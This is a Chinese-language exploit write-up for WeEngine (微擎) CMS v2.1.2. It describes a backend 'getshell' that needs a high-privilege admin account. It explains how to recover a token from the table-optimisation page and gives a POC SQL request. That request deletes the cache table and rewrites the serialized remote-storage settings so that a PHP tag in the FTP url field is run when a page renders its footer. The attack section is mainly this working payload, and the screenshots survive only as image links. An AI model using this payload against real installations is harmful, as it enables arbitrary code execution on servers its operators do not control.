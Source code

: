 微擎cms v2.1.2 后台getshell
===========================

一、漏洞简介
------------

需要登录后台，并且有高权限。

二、漏洞影响
------------

v2.1.2

三、复现过程
------------

这个洞首先需要一个高权账号。问题出在模板解析这里(template.func.php)。

![](resource/微擎cmsv2.1.2后台getshell/media/rId24.png)

attachurl\_remote来自于后台的设置,但是有一层htmlspecialchars

![](resource/微擎cmsv2.1.2后台getshell/media/rId25.png)

![](resource/微擎cmsv2.1.2后台getshell/media/rId26.png)

但是恰巧微擎支持SQL操作,虽然有些绿化版本的把SQL提交按钮和TOKEN值隐藏了,但是由于微擎一个页面做了多个CASE,所以可以数据表优化处找到TOKEN

![](resource/微擎cmsv2.1.2后台getshell/media/rId27.png)

这样就可以愉快的修改SQL了,然后会发现微擎存在一个缓存表,同时remote这边的设置做了序列化(其实这个也可以利用),就可以构造如下

### POC

    sql=DELETE from ims_core_cache;update ims_core_settings  set `value` ='a:5:{s:4:"type";i:1;s:6:"alioss";a:4:{s:3:"key";s:0:"";s:6:"secret";s:0:"";s:6:"bucket";N;s:8:"internal";s:1:"0";}s:3:"ftp";a:9:{s:3:"ssl";i:1;s:4:"host";s:9:"127.0.0.1";s:4:"port";s:2:"21";s:8:"username";s:4:"root";s:8:"password";s:4:"root";s:4:"pasv";i:0;s:3:"dir";s:10:"127.0.0.11";s:3:"url";s:28:"127.0.0.1?<?php echo 123; ?>";s:8:"overtime";i:0;}s:5:"qiniu";a:4:{s:9:"accesskey";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:3:"url";s:0:"";}s:3:"cos";a:6:{s:5:"appid";s:0:"";s:8:"secretid";s:0:"";s:9:"secretkey";s:0:"";s:6:"bucket";s:0:"";s:5:"local";s:0:"";s:3:"url";s:0:"";}}' where `key`="remote";&token=9def73ec&submit=submit

最后刷新缓存然后打开有加载footer的页面就能getshell了

![](resource/微擎cmsv2.1.2后台getshell/media/rId29.png)

![](resource/微擎cmsv2.1.2后台getshell/media/rId30.png)

![](resource/微擎cmsv2.1.2后台getshell/media/rId31.png)
